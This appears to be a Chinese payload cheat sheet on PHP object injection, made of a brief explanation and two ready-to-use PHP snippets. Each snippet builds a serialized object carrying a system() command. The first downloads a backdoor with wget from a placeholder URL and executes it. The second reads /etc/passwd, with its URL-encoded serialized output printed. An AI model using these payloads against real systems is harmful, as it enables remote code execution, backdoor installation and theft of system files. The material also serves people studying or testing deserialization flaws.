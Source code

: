 # PHP对象注入
PHP对象注入是一种应用程序级别的漏洞，可以让攻击者执行不同类型的恶意攻击, 例如基于背景的代码注入, SQL资料隐码攻击, 路径遍历和程序拒绝服务攻击. 用户提供的输入在传递给未序列化()PHP函数之前，没有经过适当的消毒处理，就会出现漏洞. 由于PHP允许对象序列化, 攻击者可以将特定的序列化字符串传递给脆弱的非序列化()调用, 导致将一个任意的PHP对象(s)注入到应用程序范围.	

## 开发

反向shell
```php
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}

echo urlencode(serialize(new PHPObjectInjection));
```

基础检测
```php
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

## 感谢
* https://www.owasp.org/index.php/PHP_Object_Injection
